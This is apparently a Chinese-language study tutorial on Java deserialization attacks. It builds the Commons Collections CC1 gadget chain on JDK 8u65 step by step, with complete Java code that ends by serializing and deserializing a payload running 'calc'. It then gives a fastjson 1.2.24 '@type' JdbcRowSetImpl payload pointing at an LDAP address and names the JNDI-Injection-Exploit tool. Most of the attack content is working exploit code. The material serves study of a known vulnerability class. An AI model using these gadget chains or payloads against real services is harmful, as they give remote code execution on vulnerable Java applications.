JavaEECC链条 #
别沉淀了行吗
一： 下载对应的CDK 8u65以及CC链条1 #
Oracle JDK 8u65 全平台安装包下载 - 码霸霸
JDK 8u71 及之后的版本中，Oracle 对该方法的逻辑进行了修改，增加了对恶意类的校验，直接导致 CC1 链的利用路径被阻断。而JDK 8u65（属于 8u71 之前的版本） 未包含这些安全修复，仍保留了原始的反序列化逻辑，因此能成功触发漏洞
注意CC1和版本CC链条3.21没关 CC1是CC链条的第一个链条不是CC版本
3.2.1包含了CC1的链条和JDK配合进行反序列化测试
<dependencies>
<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->
<dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.2.1</version>
<classifier>sources</classifier>
</dependency>
</dependencies>
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
<modelVersion>4.0.0</modelVersion>
<groupId>com.yr</groupId>
<artifactId>CC1</artifactId>
<version>1.0-SNAPSHOT</version>
<properties>
<maven.compiler.source>8</maven.compiler.source>
<maven.compiler.target>8</maven.compiler.target>
<project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
</properties>
<dependencies>
<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->
<dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.2.1</version>
</dependency>
</dependencies>
</project>
同步后在lib里面看有无CC链条

然后下载jdk的源码因为jdk里面我们这次的CC1都是class文件 我们无法跟踪需要源码来帮助
你放入进去后你打开源码都是打开的java文件了
https://archive.apache.org/dist/commons/collections/source/commons-collections-3.2.1-src.zip 下载在库里面引用源码来查看

到这里环境就配置完毕
一些前提 #
1：只有实现了 java.io.Serializable 接口的类，才能被 Java 序列化 / 反序列化机制处理
2：Java 在反序列化对象时，会自动调用类中重写的 readObject 方法（若存在）。这个方法相当于一个 “钩子”—— 如果在其中写入恶意逻辑（或调用其他危险组件），就能在反序列化时被触发，成为漏洞利用的入口点
1：Transformer接口与反射调用 #
public Object transform(Object input);
提交一个类返回一个类
然后我们查看下实现这个接口的类有哪些
org/apache/commons/collections/functors/InvokerTransformer.java 发现这个类用了这个接口
ctrl+H 查看引用类

这个类重写了接口
核心逻辑通过反射调用目标的指定方法
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
super();
iMethodName = methodName;
iParamTypes = paramTypes;
iArgs = args;
}
public Object transform(Object input) {
if (input == null) {
return null;
}
try {
Class cls = input.getClass();
Method method = cls.getMethod(iMethodName, iParamTypes);
return method.invoke(input, iArgs);
} catch (NoSuchMethodException ex) {
throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
} catch (IllegalAccessException ex) {
throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
} catch (InvocationTargetException ex) {
throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
}
}
如果我们要执行命令就比如用下面代码
import org.junit.Test;
import java.io.IOException;
public class test {
@Test
public void invokerExec() throws IOException {
Runtime.getRuntime().exec("calc");
}
}
那么我们怎么使用反射来进行调用runtime.exec来执行系统命令呢
InvokerTransformer invokerTransformernew =new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
invokerTransformernew.transform(Runtime.getRuntime());
通过这个代码调用transformer方法可以直接出系统命令
new Class[]{String.class} → 告诉反射：“我要调用的 exec 方法需要一个 String 类型的参数”。
new Object[]{"calc"} → 告诉反射：“给这个 exec 方法传入参数值 calc”。

所以我们成功通过transformer执行了系统命令所以我们就要往前推了
2：谁调用了transform方法 #
找到了org/apache/commons/collections/map/TransformedMap.java 这个里面调用了transformer
protected Object checkSetValue(Object value) {
return valueTransformer.transform(value);
}
注意是protected
所以valueTransformer如果等于invokeTransformer.transform 就可以执行了
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
return new TransformedMap(map, keyTransformer, valueTransformer);
}
在它上面的这个方式是替换的核心方法
如果checkSetValue不是protect就是调用所以我们要找到能找到的调用checkSetValue的类
public void invokerExec2() throws IOException {
InvokerTransformer invokerTransformernew =new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
Map decorate = TransformedMap.decorate(null,null,invokerTransformernew);
TransformedMap.checkSetValue()
所以decorate可以构建TransformedMap类但是是protect的
protected Object checkSetValue(Object value) {
return valueTransformer.transform(value);
}
查找用法在org/apache/commons/collections/map/AbstractInputCheckedMapDecorator.java
TransformedMap继承自AbstractInputCheckedMapDecorator
找到了checkSetValue
public Object setValue(Object value) {
value = parent.checkSetValue(value);
return entry.setValue(value);
}
所以我们整理一下
protected Object checkSetValue(Object value) {
return valueTransformer.transform(value);
}
1 InvokerTransformer继承了transformer接口，TransformedMap里面可以调用InvokerTransformer
2 我们通过decorate来生成一个Map对象里面Transformer valueTransformer就传入 invokerTransformernew(自己定义的) 因为invokexx 是实现了这接口的
3 我们设置好了invoketransformer(但是里面的数值我们还不能设置啊)
4我们找到了setValue里面调用了checkSetValue我们就传入Runtime.getRuntime()就可以执行了
tip:
1 子类没有重写父类方法
2 使 parent 指向子类实例，调用 parent.checkSetValue 时，执行的还是 父类的 checkSetValue 方法（因为子类没有提供新的实现，只能用父类的）
3 return new TransformedMap(map, keyTransformer, valueTransformer); 这个是有了原本map的数据，然后我们**Map 的 entrySet() 方法获取 MapEntry 实例**，再调用它的方法
案例
public class TestMapEntry {
public static void main(String[] args) {
// 1. 创建Map并添加数据
Map<String, String> map = new HashMap<>();
map.put("name", "张三");
map.put("age", "20");
// 2. 获取所有MapEntry实例
Set<Map.Entry<String, String>> entries = map.entrySet();
// 3. 遍历并调用MapEntry的方法
for (Map.Entry<String, String> entry : entries) {
// 调用getKey()和getValue()
String key = entry.getKey();
String value = entry.getValue();
System.out.println("key: " + key + ", value: " + value);
// 调用setValue()修改值（以age为例）
if ("age".equals(key)) {
entry.setValue("21"); // 修改value为"21"
System.out.println("修改后age的value: " + entry.getValue());
}
}
// 验证原始Map的值也被修改了（因为共享数据）
System.out.println("原始Map中age的值: " + map.get("age")); // 输出21
}
}
总的来说
父类 AbstractInputCheckedMapDecorator 中的 MapEntry 内部类，重写了 Map.Entry 接口的 setValue 方法 **，这才导致它的 setValue 行为和普通 Map（如 HashMap）的 setValue 不同
public void invokerExec2() throws IOException {
InvokerTransformer invokerTransformernew =new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
//Map decorate = TransformedMap.decorate(null,null,invokerTransformernew);
HashMap<Object, Object> map = new HashMap<>();
map.put("a","b");
Map<Object, Object> decorated = TransformedMap.decorate(map, null, invokerTransformernew);
//取出decorated中所有的键值对，赋值给entry变量，然后执行循环体（你的代码中是打印entry
for (Map.Entry<Object, Object> entry : decorated.entrySet()) {
//System.out.println(entry);
entry.setValue(Runtime.getRuntime());
}
那么到了现在我们就又往前推进了一步
3：谁调用了setvalue #
sun/reflect/annotation/AnnotationInvocationHandler.java 在这个类中
他实现了Serializable接口
class AnnotationInvocationHandler implements InvocationHandler, Serializable
它刚好实现了三个部分
1.实现了序列化接口
2.重写了readobject
3.readobject里面调用了setValue
那么 memberValue 怎么变成我们上面的增强map呢
private void readObject(java.io.ObjectInputStream s)
throws java.io.IOException, ClassNotFoundException {
s.defaultReadObject();
// Check to make sure that types have not evolved incompatibly
AnnotationType annotationType = null;
try {
annotationType = AnnotationType.getInstance(type);
} catch(IllegalArgumentException e) {
// Class is no longer an annotation type; time to punch out
throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
}
Map<String, Class<?>> memberTypes = annotationType.memberTypes();
// If there are annotation members without values, that
// situation is handled by the invoke method.
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name);
if (memberType != null) { // i.e. member still exists
Object value = memberValue.getValue();
if (!(memberType.isInstance(value) ||
value instanceof ExceptionProxy)) {
memberValue.setValue(
new AnnotationTypeMismatchExceptionProxy(
value.getClass() + "[" + value + "]").setMember(
annotationType.members().get(name)));
}
}
}
}
看他的构造函数进行传值,但是不是public的我们就用反射来调用出来
type是注解 比如@type @restsponce
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
Class<?>[] superInterfaces = type.getInterfaces();
if (!type.isAnnotation() ||
superInterfaces.length != 1 ||
superInterfaces[0] != java.lang.annotation.Annotation.class)
throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
this.type = type;
this.memberValues = memberValues;
}
代码如下
@Test
public void invokerExec3() throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
InvokerTransformer invokerTransformernew =new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
//Map decorate = TransformedMap.decorate(null,null,invokerTransformernew);
HashMap<Object, Object> map = new HashMap<>();
map.put("a","b");
Map<Object, Object> decorated = TransformedMap.decorate(map, null, invokerTransformernew);
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Target.class, decorated);
CCtest.serialize(o);
CCtest.unserialize("ser.bin");
}
import org.junit.Test;
import java.io.*;
public class CCtest {
public static void serialize(Object obj) throws IOException {
ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
objectOutputStream.writeObject(obj);
}
public static Object unserialize(String filename) throws IOException, ClassNotFoundException {
ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(filename));
Object o = objectInputStream.readObject();
return o;
}
@Test
public void test() throws IOException, ClassNotFoundException {
unserialize("cc1.ser");
}
}
我们在反序列化会触发readobject 然后我们断点查看是否断下来了

同时我们要满足IF顺利到达下面
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name);
if (memberType != null) { // i.e. member still exists
Object value = memberValue.getValue();
if (!(memberType.isInstance(value) ||
value instanceof ExceptionProxy)) {
memberValue.setValue(
new AnnotationTypeMismatchExceptionProxy(
value.getClass() + "[" + value + "]").setMember(
annotationType.members().get(name)));
}
在我们传入的Object o = declaredConstructor.newInstance(Target.class, decorated);的target注解里面必须map里面要有这个值比如都有的value所以我们要把key改为value 然后因为key里面不为空所以过了不为null

@Test
public void invokerExec3() throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
InvokerTransformer invokerTransformernew =new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
//Map decorate = TransformedMap.decorate(null,null,invokerTransformernew);
HashMap<Object, Object> map = new HashMap<>();
map.put("value","b");
Map<Object, Object> decorated = TransformedMap.decorate(map, null, invokerTransformernew);
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Target.class, decorated);
CCtest.serialize(o);
CCtest.unserialize("ser.bin");
}
AnnotationInvocationHandler 把你传进去的 Map 当成 成员名 -> 值 的映射来处理；
如果 key 是注解里不存在的名字（memberType == null），JDK 会跳过，不会调用 setValue()；
所以利用时必须使用注解真实存在的成员名（"value" 是常用且可用的一个）。
4.setValue值怎么控制 #
if (!(memberType.isInstance(value) ||
value instanceof ExceptionProxy)) {
memberValue.setValue(
new AnnotationTypeMismatchExceptionProxy(
value.getClass() + "[" + value + "]").setMember(
annotationType.members().get(name)));
我们到了setvalue后 怎么控制里面的数值呢
我们又找到了一个transformer
class ConstantTransformer
public Object transform(Object input) {
return iConstant;
}
public ConstantTransformer(Object constantToReturn) {
super();
iConstant = constantToReturn;
}
他重写的transformer 无论什么都是返回具体的实例
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.getRuntime());
constantTransformer.transform(null);
比如这样其他还是Runtime.getRuntime
但是这样后你没发现吗 我的exec 和 calc去哪里了？ 这里不就断开了嘛 你拿到了Runtime.getruntime但是方法呢参数呢
5.chainTransformer 链在一起 #
神奇的chaintransformer
它的transformer
把多个简单的转换步骤组成一个 “流水线”，上一个转换的输出作为下一个转换的输入
public Object transform(Object object) {
// 遍历内部存储的所有Transformer（iTransformers是一个Transformer数组）
for (int i = 0; i < iTransformers.length; i++) {
// 关键：将当前object作为输入，调用第i个Transformer的transform方法，
// 并把返回值重新赋值给object（作为下一个Transformer的输入）
object = iTransformers[i].transform(object);
}
return object;
}
就像invoketransformer.transformer(constantTransformer.transformer)
@Test
public void invokerExec5() throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
InvokerTransformer invokerTransformernew =new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.getRuntime());
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
constantTransformer,
invokerTransformernew
});
chainedTransformer.transform("test");
}
然后我们放入代码
@Test
public void invokerExec5() throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
InvokerTransformer invokerTransformernew =new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.getRuntime());
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
constantTransformer,
invokerTransformernew
});
//chainedTransformer.transform("test");
HashMap<Object, Object> map = new HashMap<>();
map.put("value","b");
Map<Object, Object> decorated = TransformedMap.decorate(map, null, chainedTransformer);
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Target.class, decorated);
CCtest.serialize(o);
CCtest.unserialize("ser.bin");
但是.RUNTIME不能被序列化
java.io.NotSerializableException: java.lang.Runtime
但是Class是可以序列化的
public final class Class<T> implements java.io.Serializable,
我们可以通过反射来调用runtime
那么我们要怎么样结合我们上面的transform呢
Class class2 = Runtime.class;
Method getRuntime = class2.getDeclaredMethod("getRuntime", null);
getRuntime.setAccessible(true);
Object invoke2 = getRuntime.invoke(null);
//System.out.println(invoke2);
Method exec = class2.getMethod("exec", String.class);
exec.invoke(invoke2, "calc");
答案就是使用invoke反复调用
public void invokerExec5() throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
//InvokerTransformer invokerTransformernew =new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
//ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.getRuntime());
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
});
//chainedTransformer.transform("test");
HashMap<Object, Object> map = new HashMap<>();
map.put("value","value");
Map<Object, Object> decorated = TransformedMap.decorate(map, null, chainedTransformer);
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Target.class, decorated);
CCtest.serialize(o);
CCtest.unserialize("ser.bin");
}
Runtime.class（输入） →第一个 transformer 调用getMethod("getRuntime") → 得到getRuntime方法的Method对象 →第二个 transformer 调用Method.invoke(null) → 得到Runtime实例 →第三个 transformer 调用Runtime.exec("calc") → 执行命令。
new InvokerTransformer(
"getMethod", // 要调用的方法名：Class类的getMethod方法
new Class[]{String.class, Class[].class}, // 方法参数类型：getMethod的参数类型
new Object[]{"getRuntime", null} // 方法参数值：要获取的方法名和参数类型数组
)
new InvokerTransformer(
"invoke", // 要调用的方法名：Method类的invoke方法
new Class[]{Object.class, Object[].class}, // 方法参数类型：invoke的参数类型
new Object[]{null, null} // 方法参数值：调用者实例和方法参数
)
new InvokerTransformer(
"exec", // 要调用的方法名：Runtime类的exec方法
new Class[]{String.class}, // 方法参数类型：exec的参数类型
new Object[]{"calc"} // 方法参数值：要执行的命令
)

- 修复前（如 8u65）：
readObject中对memberValues的遍历操作（memberValues.entrySet()）会触发TransformedMap的setValue方法，进而执行恶意Transformer链。 - 修复后（如 8u71+）：
readObject方法被重写，不再直接操作memberValues，而是创建新的LinkedHashMap来存储值，彻底阻断了对TransformedMap的调用链路。
二：fastjson 1.2.24 #
fastjson 可以通过 json字符串转换为 对象 或者把 对象转换为json字符串
安装依赖
<dependency>
<groupId>com.alibaba</groupId>
<artifactId>fastjson</artifactId>
<version>1.2.24</version>
</dependency>
1:我们准备一个恶意的类 #
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “calc” 使用这个工具来准备
JSON.parseObject 是 fastjson 自带的方法`
- 反序列化：
JSON.parseObject(jsonStr, 目标类)（JSON 字符串→Java 对象）、JSON.parse(jsonStr)（JSON 字符串→Object）； - 序列化：
JSON.toJSONString(对象)（Java 对象→JSON 字符串）。
Jackson（Spring 默认内置）
常规核心类：com.fasterxml.jackson.databind.ObjectMapper
- 功能：Jackson 的核心处理类，通过实例方法实现 JSON 转换，支持复杂对象（如集合、泛型）。
- 常用方法：
- 反序列化：
objectMapper.readValue(jsonStr, 目标类)（JSON→对象）； - 序列化：
objectMapper.writeValueAsString(对象)（对象→JSON）。
- 反序列化：
内置的
-
javax.json.Json（或jakarta.json.Json，Jakarta EE 中）：用于构建 JSON 读写器； -
javax.json.bind.Jsonb（JSON Binding API）：简化对象与 JSON 的绑定（类似 Jackson/Gson）。 -
常用方法：
- 反序列化：
JsonbBuilder.create().fromJson(jsonStr, 目标类)； - 序列化：
JsonbBuilder.create().toJson(对象)。
- 反序列化：
原理是JSON.parseObject（text ）函数它是讲文本转换为JAVA对象，如果这里可控就可以传入恶意json
2：看看效果以及poc #
import com.alibaba.fastjson.JSON;
import java.io.IOException;
public class evil {
public static void main(String[] args) throws IOException {
String test = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl;\"," +
"\"dataSourceName\":" +
"\"ldap://xxxxx\"," +
"\"autoCommit\":true}";
JSON.parseObject(test);
}
}
可以看到当我们传入的反序列化后成功触发

我们来获取一下当前的类
public static void main(String[] args) throws IOException {
String test = " {\"name\": \"Viper\",\n" +
" \"team\": \"EDG2021\"}";
Object o = JSON.parseObject(test, Object.class);
System.out.println(o.getClass().getName());
com.alibaba.fastjson.JSONObject
打印出来是com.alibaba.fastjson.JSONObject

3：工作原理 #
但是fastjson有一个特性可以指定类比如
在文本那个加一个@type 就可以指定类
import com.alibaba.fastjson.JSON;
import java.io.IOException;
public class evil {
public static void main(String[] args) throws IOException {
String test = "{\n" +
" \"@type\" : \"org.example.test2\",\n" +
" \"name\": \"Viper\",\n" +
" \"team\": \"EDG2021\"\n" +
"}";
Object o = JSON.parseObject(test, Object.class);
System.out.println(o.getClass().getName());
}
}

那么我们想fastjson是怎么赋值的吗 答案是也是和我们一样的new 一个对象然后调用 getName getAge=xxx赋值所以它会调用构造方法和set方法
package org.example;
public class test2 {
private String name;
private int age;
public test2() {
System.out.println("无参构造被触发了");
}
public void setName(String name) {
this.name = name;
System.out.println("当前name是" + name);
}
public void setAge(int age) {
this.age = age;
}
public test2(String name, int age) {
this.name = name;
this.age = age;
}
public String getName() {
return name;
}
public int getAge() {
return age;
}
}
